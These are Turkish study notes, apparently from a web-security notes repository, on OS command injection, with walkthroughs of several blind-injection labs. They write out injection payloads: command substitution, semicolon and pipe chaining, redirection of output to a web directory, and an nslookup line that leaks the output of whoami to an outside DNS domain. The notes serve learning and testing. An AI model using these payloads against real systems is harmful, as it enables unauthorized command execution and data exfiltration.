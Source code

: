 <h1 align="center">OS Command Injection</h1>

- Günümüz web uygulamalarının istisnasız, OS ile bir iletişimi vardır ve buna da ihtiyacı vardır. Bu uygulamanın belli durumlarda işletim sistemindeki diğer programlarla da etkileşime geçmesi gerekmektedir.
- Bir web sitesi bir işi 60sn içerisinde tamamlayamıyor ise, background job iş olarak yapma eğilimindedir.
- 60sn yi geçerse, alttaki TCP session’ı kopabilir tabi gönderilen header’ın connection-type ına göre belirleniyor bu.
- Burdaki web uygulaması yapacağı işin belli birtakım şartlarının olması gerekli:
    1. Req-response döngüsü içinde cevap üretemeyeceğin kadar yoğun  bir işin varsa. Bu işi, kullanıcıdan alıp background job başlatıp schedule ediyor, işim bitince ben sana mail atarım diyor. Bu iş için OS ile iletişim kurabilmesi için arkada belli başlı kodların yazılması gerekiyor.
- Bir HTTP req-response cycle içerisinde bitmeyen ama işletim sisteminin arkada yapmaya devam ettiği işlere asenkron proccessler denir.
#### İşletim Sistemi üzerinde komut çalıştırmaya ihtiyaç duyulan her noktada bir Command Line Injection bulunabilir.
- Kullanıcıdan bir parametre alırsan, bu parametreyi güvensiz bir şekilde koyarsan Command Injection olur. Alınan input kullanılan yer :
    - Output, HTML içeriğinde ise ve encoding yapmıyor ise XSS,
    - SQL sorgusunda kullanılıyorsa ve parameter bining yapmıyorsa SQLi,
    - İşletim sisteminde çalışacak komutun bir parçasında güvenli bir şekilde yer almıyorsa OS Command Injection.
#### PHP dilinde ` işareti, komut satırında komut çalıştırıyor.
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/5f0e3632-60e4-4886-b581-b3eaafa037e6)
- "; ile kodu durdurup geri kalanında istediğini yazabilirsin
```sh
sleep 100; 
	komutu mesela
```
## Linux Tips
```sh
echo BENIM ADIM "MEHMET $(sleep 100) INCE"
```
- buradaki olay aslında çift tırnak olması
	- Linux işletim sistemi çift tırnak içerisinde $() işareti içinde mevzu gördüğünde string interpolation gerçekleştiriyor
	- Ortadaki komutun çıktısı tırnakların içine string olarak gidiyor
- " ve ; gibi işaretler input validationa takılır genellikle.
#### " ile kapatıp istedğin kodu yazabilirsin ama işte engele takılır.
- Windowsta da Powershell'i kontrol edebiliyorsan orda da yarar bu
#### Tek tırnak kullanmak gerekiyor ama yine tek tırnak kapatıp istediğin kodu enjekte edebilirsin.
### Nihai payload kodu şu şekilde:
```sh
’$(sleep 100)’
```
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/4e505be6-5460-42ea-9e38-c6cad79be5d7)

- Çalıştırdığın komutun çıktısını HTML içeriğinde görebiliyorsan sıkıntı yok.
- Asenkron yapılarda ise, Blind OS Command Injection gerçekleşir. Bunun için en güzel yöntem “nslookup” tır. Hem windowsta hem linuxta ortak komuttur.
    - nslookup google.com
    - Bu komut çalıştırıldığında sistemdeki default name server ne ise ona gider. Oradan root DNS’e gider, sonrasında senin dns sunucuna gelir ve loglarında görmeye başlarsın.
    - echo BENIM ADIM ‘MEHMET ‘$(nslookup $(whoami).mehmetince.net)’ INCE’
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/a40e07ea-597d-4aee-9a09-0200c210a831)
- whoami içinde boşluk, değişik karakterler falan olmamalı. Domain, RFC protokolüne uygun bir şeyler olması lazım.
## Lab: OS Command Injection, Simple Case
- Burp suite ile bir ürün sorgusunun trafiğini yakalıyoruz.
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/17386aed-a9d3-4128-8723-719a8d888225)
- Stok kontrolü isteği gelince, sunucu arka taraftaki stok kontrolü ile ilgili servise gidiyor yani komut satırında komut çalıştırıyor.
- Çıktı olarak sunucu integer bir değer bekliyor o yüzden whoami çalışmadı ama sleep 10 komutu çalıştı. Tırnak koymadan yaptı
- tek tırnak “ veya ‘ koyunca Syntax hatası veriyorsa, arka tarafa parametreler yalın halde gidiyor demektir: checkstock.sh 1 2
- “” şeklindeyse, ‘ konulduğunda syntax hatası vermemesi lazım.
- ‘’ şeklindeyse, “ konulduğunda hata vermemesi lazım.
- ; echo 123; yaptığında çıktı verdi
    - [checkstock.sh](http://checkstock.sh) 1 $(whoami) yapmak yerine yani parametreye yazmak yerine,
    - proccessin outputuna veriyi koymak gerekiyor yani, std.output’a gelen data bu diyecek adam
    - pipe atıp | echo $(whoami) yapabilirsin
## Lab: Blind OS Command Injection with time delays
- Feedback verme kısmında senin formu save ediyor arka tarafa.
    - Tek tırnak ‘ atınca save etti, çift tırnak “ atınca save edemedi
    - Demek oluyor ki, arka taraftaki komut çift tırnaklar “ arasına alınmış.
    - $(sleep 10)
## Lab: Blind OS Command Injection with output redirection
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/1cf17982-7bde-4c3e-8b15-0561b74d3cec)
- Zaafiyet BLIND ise, kendi komutunun çıktısı yansımıyor fakat SLEEP ile zaafiyeti doğrulayabilirsin.
- Kendi komutunun çıktısını bir pathe redirection yaparsan ve o path’e de web üstünden erişebiliyor isen böylece Command Injectionu zaafiyetini sömürebilirsin.
- inputların hangisini kontrol ettiğimizi bilmiyoruz
- gidip en sona :
    - $(whoami%20>%20/var/www/images/mdisec.txt)
    - $(whoami%20>%20/var/www/images/mdisec.txt)
    - Sayfanın kaynak kodlarında .jpeg, .png gibi dosyalara bakıp seninki de orada mı diye kontrol edebilirsin.
    - payloadı yazdıktan sonra ana sayfadaki fotoğrafları yükleme URL’i üstünden GET isteğinden filename=mdisec.txt yaptığında çözülür.
    - Endpoint üstünden yüklendiği için böyle tasarlanmış lab. Fullpath verip de görebilirsin gerçek hayatta.
